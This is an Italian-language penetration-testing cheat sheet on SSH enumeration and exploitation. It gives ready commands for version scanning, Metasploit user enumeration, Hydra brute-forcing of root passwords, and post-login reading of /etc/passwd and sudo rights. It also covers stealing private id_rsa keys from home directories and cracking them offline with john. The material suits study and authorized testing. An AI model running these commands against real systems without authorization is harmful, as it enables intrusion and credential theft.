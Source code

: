 # SSH Enumeration & Exploitation

**SSH (Secure Shell)** è un protocollo crittografico che consente l’accesso remoto sicuro a sistemi, tipicamente Linux o Unix-like. <br>
Opera sulla porta TCP **22**. <br>
Pur essendo generalmente sicuro, una cattiva configurazione può renderlo un punto di ingresso critico durante un penetration test.

---

## Fase 1 – Scansione e Identificazione del Servizio

Per verificare se SSH è attivo e quale versione è in esecuzione:
`nmap -sV -p 22 <IP>`
Questo comando identifica la versione del servizio SSH. <br>
Un banner può rivelare, ad esempio:
`22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.10`

Se la versione è obsoleta, puoi cercare vulnerabilità note:
`searchsploit openssh <versione>`

Script Metasploit utili:
- `use auxiliary/scanner/ssh/ssh_version` → rileva la versione SSH
- `use auxiliary/scanner/ssh/ssh_enumusers` → enumera utenti sulla base del timing delle risposte e generalmente trova più utenti rispetto al bruteforce. 

---

## Fase 2 – Brute Force delle Credenziali

### Con Hydra
Hydra è un tool di brute force che supporta diversi protocolli, incluso SSH. Permette di testare combinazioni di credenziali:

`hydra -L <usernameList> -P <passwordList> -t 4 <IP> ssh`

- `-L`: file con la lista degli username
- `-P`: file con la lista delle password
- `-t 4`: numero di thread simultanei

Esempio:
`hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.10`

### Con Metasploit

`use auxiliary/scanner/ssh/ssh_login`<br>
`set RHOSTS <IP>`<br>
`set USERNAME <username>`<br>
`set PASS_FILE <path_wordlist>`<br>
`run`<br>

Se il login ha successo, il modulo mostrerà la combinazione valida.

> **Nota:** usa velocità ridotte per evitare blocchi o ban da parte del sistema target.

---

## Fase 3 – Accesso e Verifica Manuale

Una volta ottenute le credenziali:

`ssh <username>@<IP>`

Alla prima connessione comparirà:
`Are you sure you want to continue connecting (yes/no)?`
Rispondi `yes`, poi inserisci la password.

Dopo l’accesso:

- `whoami` → mostra l’utente attivo
- `id` → UID, GID e gruppi
- `cat /etc/passwd` → elenca gli utenti del sistema
- `sudo -l` → comandi eseguibili come root (se configurato)

> **Curiosità:** alcuni utenti SSH possono avere accesso root o sudo senza password in ambienti mal configurati.

---

## Fase 4 – Post Exploitation

### Verifica di Configurazioni Deboli

- Verifica la presenza di `PermitRootLogin yes` in `/etc/ssh/sshd_config`
- Controlla la presenza di chiavi SSH private (`id_rsa`, `id_dsa`) in `/home/<user>/.ssh/`
- Se trovi una chiave `id_rsa`, puoi usarla:

```bash
ssh -i id_rsa <user>@<IP>
```

### Crack delle chiavi trovate
Converti una chiave privata in hash:

```bash
ssh2john id_rsa > rsa_hash.txt
john rsa_hash.txt --wordlist=<wordlist>
```

> Questo permette il brute force offline della chiave trovata.

SSH è sicuro se ben configurato. Tuttavia, l'uso di password deboli, configurazioni permissive o la perdita di chiavi private può facilmente portare a una compromissione completa del sistema.
